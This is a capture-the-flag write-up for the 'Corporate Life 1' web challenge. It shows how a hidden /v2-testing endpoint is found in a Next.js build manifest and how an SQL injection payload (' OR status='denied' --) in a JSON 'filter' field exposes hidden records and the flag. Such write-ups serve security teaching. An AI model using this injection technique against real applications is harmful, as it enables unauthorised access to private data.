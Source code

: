 ## Corporate Life 1
### Problem Description
The Request Management App is used to view all pending requests for each user. It’s a pretty basic website, though I heard they were working on something new.

Anyway, did you know that one of the disgruntled employees shared some company secrets on the Requests Management App, but it's status was set *denied* before I could see it. Please find out what it was and spill the tea!

### Solution
To begin, we open Burp Suite and examine the network traffic. Upon loading the webpage, we observe a GET request:

```bash
GET /_next/static/bkat3_n9dfvE_URrWvN1g/_buildManifest.js HTTP/1.1
```

Inspecting the response, we find an important hint:

```bash
HTTP/1.1 200 OK
Cache-Control: public, max-age=31536000, immutable
...
self.__BUILD_MANIFEST=function(e,r,s){return{..."/v2-testing":["static/chunks/pages/v2-testing-fb612b495bb99203.js"],sortedPages:["/","/_app","/_error","/v2-testing"]}}(0,0,0),self.__BUILD_MANIFEST_CB&&self.__BUILD_MANIFEST_CB();
```

The mention of `/v2-testing` suggests a new endpoint to explore.


Navigating to `http://kashictf.iitbhucybersec.in:port_number/v2-testing`, we observe a POST request being made:

```bash
POST /api/list-v2 HTTP/1.1
Host: kashictf.iitbhucybersec.in:3867
Content-Length: 13
Content-Type: application/json
Referer: http://kashictf.iitbhucybersec.in:3867/v2-testing

{"filter":""}
```

The `filter` parameter appears to be user-controlled, making it a potential target for SQL Injection.


And this is the key to our solution! Since our objective is to retrieve denied requests, we inject an SQL payload into the `filter` parameter:

```bash
{"filter":"' OR status='denied' --"}
```

Upon sending the modified request, the server returns a list of denied requests. One of these contains the leaked company secrets, revealing the flag!


Have a great day :)
https://github.com/Irench1k

